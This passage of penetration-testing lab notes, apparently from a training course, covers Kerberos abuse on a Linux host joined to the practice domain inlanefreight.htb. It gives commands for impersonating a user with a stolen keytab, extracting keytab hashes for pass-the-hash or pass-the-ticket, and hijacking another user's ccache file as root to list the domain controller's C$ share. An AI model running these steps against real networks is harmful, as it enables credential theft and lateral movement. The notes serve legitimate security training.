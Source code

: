 **Listing keytab File Information**

```shell-session
david@inlanefreight.htb@linux01:~$ klist -k -t
```

> run `klist` to confirm the ticket we are currently using.

**Impersonating a User with a keytab**

```shell-session
david@inlanefreight.htb@linux01:~$ kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab
```

**Connecting to SMB Share**

```shell-session
david@inlanefreight.htb@linux01:~$ smbclient //dc01/carlos -k -c ls
```

> Note: To keep the ticket from the current session, before importing the keytab, save a copy of the ccache file present in the enviroment variable `KRB5CCNAME`.

**Extracting Keytab Hashes with KeyTabExtract**

```shell-session
david@inlanefreight.htb@linux01:~$ python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```

> The [KeyTabExtract](https://github.com/sosdave/KeyTabExtract) script will extract information such as the **realm**, **Service Principal**, **Encryption Type**, and **Hashes**. We can use the hashes to perform PtH attack or we can forge tickets and perform PtT attack. Or, we can crack the hash and gain the plain text password if possible.

After gaining access to another user in the domain, we can use the same procedure as mentioned in the above steps and gain more hashes and tickets.

### Abusing Keytab ccache

For this <mark style="color:red;">**we need root access**</mark>.

**Looking for ccache Files**

```shell-session
root@linux01:~# ls -la /tmp
```

**Identifying Group Membership with the id Command**

```shell-session
root@linux01:~# id julio@inlanefreight.htb
```

**Importing the ccache File into our Current Session**

```shell-session
root@linux01:~# klist

klist: No credentials cache found (filename: /tmp/krb5cc_0)
root@linux01:~# cp /tmp/krb5cc_647401106_I8I133 .
root@linux01:~# export KRB5CCNAME=/root/krb5cc_647401106_I8I133
root@linux01:~# klist
Ticket cache: FILE:/root/krb5cc_647401106_I8I133
Default principal: julio@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/07/2022 13:25:01  10/07/2022 23:25:01  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
        renew until 10/08/2022 13:25:01
root@linux01:~# smbclient //dc01/C$ -k -c ls -no-pass
```
